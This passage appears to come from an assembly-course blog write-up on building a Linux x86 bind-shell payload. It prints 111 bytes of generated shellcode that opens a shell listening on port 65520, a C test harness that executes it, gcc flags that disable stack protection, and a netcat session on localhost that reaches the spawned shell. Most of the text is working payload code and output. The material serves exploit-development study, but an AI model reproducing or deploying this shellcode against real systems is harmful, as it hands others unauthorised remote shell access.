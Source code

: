 
Running this with a port argument of `65520` results in the following shellcode:

```shell_session
$ python create.py 65520
\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\xff\xf0\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\x49\xcd\x80\x41\xe2\xf4\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

This shellcode can then be used in a small C program to test it, like below:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    unsigned char code[] = "\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\xff\xf0\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\x49\xcd\x80\x41\xe2\xf4\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

    printf("Shellcode length: %d\n", strlen(code));

    void (*s)() = (void *)code;
    s();

    return 0;
}
```

Assuming this code is placed in a file named `test_shellcode.c`, it can be compiled by running: `gcc -m32 -fno-stack-protector -z execstack test_shellcode.c -o test`. After running the `test` executable, it should show the length of the shellcode, which will be 111 bytes:

```shell_session
$ ./test
Shellcode length: 111
```

Lastly, the previous connection test should be repeatable using port 65520 instead:

```shell_session
$ nc -v localhost 65520
Connection to localhost 65520 port [tcp/*] succeeded!
pwd
/home/rastating/Code/slae/utilities
netstat -an | grep "65520"
tcp        0      0 0.0.0.0:65520           0.0.0.0:*               LISTEN     
tcp        0     27 127.0.0.1:43506         127.0.0.1:65520         ESTABLISHED
tcp        0      0 127.0.0.1:65520         127.0.0.1:43506         ESTABLISHED
```
